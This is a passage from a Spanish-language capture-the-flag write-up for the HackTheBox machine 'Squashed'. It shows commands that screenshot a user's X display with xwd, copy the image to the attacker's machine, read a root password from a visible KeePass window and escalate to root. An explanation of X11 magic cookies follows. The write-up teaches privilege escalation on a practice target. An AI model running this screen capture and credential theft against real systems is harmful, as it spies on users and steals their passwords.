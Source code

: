 Ahora si podemos hacer la captura :)

```bash
alex@squashed:/tmp$ xwd -root -screen -silent -display :0 > screenshot.xwd
alex@squashed:/tmp$ ls
screenshot.xwd
```

Nos la pasamos a nuestro equipo y la abrimos!

```bash
❯ wget 10.10.11.191:8001/screenshot.xwd
--2023-03-03 14:09:12--  http://10.10.11.191:8001/screenshot.xwd
Conectando con 10.10.11.191:8001... conectado.
Petición HTTP enviada, esperando respuesta... 200 OK
Longitud: 1923179 (1,8M) [image/x-xwindowdump]
Grabando a: «screenshot.xwd»

screenshot.xwd                                  100%[====================================================================================================>]   1,83M  1,20MB/s    en 1,5s    

2023-03-03 14:09:14 (1,20 MB/s) - «screenshot.xwd» guardado [1923179/1923179]
```

Podemos abrirla con gimp o transformarla con ImageMagick. Una vez la abramos podemos ver la contraseña de root en el keepass.

![](/assets/images/Squashed/img1.png)

Si probamos la password podemos ver que es valida y que hemos pwneado la máquina. 

```bash
alex@squashed:/tmp$ su root
Password: 
root@squashed:/tmp# id
uid=0(root) gid=0(root) groups=0(root)
root@squashed:/tmp#
```

Espero que te haya servido!!

> Las "magic cookies" son cadenas de texto aleatorias que se utilizan en el sistema X Window para autenticar clientes y servidores que se comunican a través de la red. La magia se refiere a que la cadena de texto es secreta y no se puede adivinar fácilmente, lo que la hace difícil de falsificar. 
> 
> En el sistema X Window, cada servidor X tiene una cookie mágica, que es una cadena de texto aleatoria que se genera cuando se inicia el servidor. Cuando un cliente se conecta al servidor X, el cliente envía su propia cookie mágica al servidor para autenticarse. Si la cookie mágica del cliente coincide con la del servidor, entonces el servidor acepta la conexión y permite que el cliente interactúe con él. Si la cookie mágica no coincide, entonces el servidor rechaza la conexión.
> 
> Las magic cookies se almacenan en archivos ocultos en el directorio del usuario, como ".Xauthority", y se utilizan para autenticar conexiones remotas y evitar que se realicen conexiones no autorizadas a los servidores X. Las aplicaciones que utilizan el protocolo X11, como los clientes SSH o los programas gráficos remotos, utilizan las magic cookies para autenticarse y establecer una conexión segura con el servidor X.